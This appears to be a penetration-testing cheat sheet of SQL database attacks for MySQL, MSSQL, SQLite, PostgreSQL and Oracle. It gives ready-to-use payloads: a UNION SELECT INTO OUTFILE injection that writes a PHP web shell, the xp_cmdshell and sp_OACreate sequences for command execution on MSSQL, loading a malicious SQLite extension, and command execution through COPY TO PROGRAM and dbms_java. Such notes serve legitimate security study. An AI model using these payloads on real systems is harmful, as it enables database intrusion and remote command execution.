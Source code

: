 ```yaml
---
layout: blank
pagetitle: SQL Attacks
---
```


**MySQL**
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)


**MSSQL**
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Can also use `sp_OACreate` to execute commands
	`EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Linked servers can execute remote queries (MSSqlPwner)

**SQLite**
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

**PostgreSQL**
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY mytable TO PROGRAM 'whoami';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`

**Oracle**
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`